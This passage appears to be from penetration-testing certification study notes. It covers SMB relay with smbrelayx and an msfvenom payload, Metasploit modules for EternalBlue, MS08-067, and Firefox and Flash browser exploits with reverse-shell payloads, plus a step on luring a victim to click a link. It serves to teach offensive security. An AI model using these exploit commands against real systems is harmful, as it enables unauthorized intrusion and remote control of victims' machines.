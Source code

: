 config smbrelayx:
```
smbrelayx.py -h <target ip> -e <msfvenom exe payload file path>
```

> we should gain a shell in meterpreter

#### EternalBlue (MS17-010)
detecting a vuln host:
```
auxiliary/scanner/smb/smb_ms17_010
```


exploit module:
```
exploit/windows/smb/ms17_010_eternalblue
```

#### Client-Side Exploitation
- requires user interaction

exploits the mozilla pdf.js PDF file viewer
```
	exploit/multi/browser/firefox_pdfjs_privilege_escalation
	set options
	// srvhost = our ip
	// payload= firefox/shell_reverse_tcp
```

> now we need to lure the victim to click on the link generated by the metasploit
we should get a meterpreter shell

another module:
```
exploit/multi/browser/adobe_flash_hacking_team_uaf
```


#### Remove Exploitation
- does not require use interaction (open link, email etc)

```
	exploit/windows/smb/ms08_067_netapi
	set options
```

> if the machine is vulnerable and the exploit succeds, we should get a new shell


NTLMv2

![Alt text](/assets/images/posts/2023-11-19-ecppt/21.png){: .align-center}
